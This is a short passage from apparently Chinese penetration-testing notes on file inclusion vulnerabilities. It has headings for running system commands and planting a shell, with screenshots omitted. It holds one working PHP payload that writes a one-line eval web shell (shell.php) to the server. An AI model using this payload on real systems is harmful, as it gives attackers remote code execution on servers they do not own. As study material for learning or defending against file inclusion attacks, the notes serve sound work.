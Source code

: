 执行系统命令

![image-20240130134324006](08.文件包含漏洞/image-20240130134324006.png)

写入shell
`<?php file_put_contents('./shell.php','<?php eval($_POST[1]);?>');?>`

![image-20240130134326106](08.文件包含漏洞/image-20240130134326106.png)
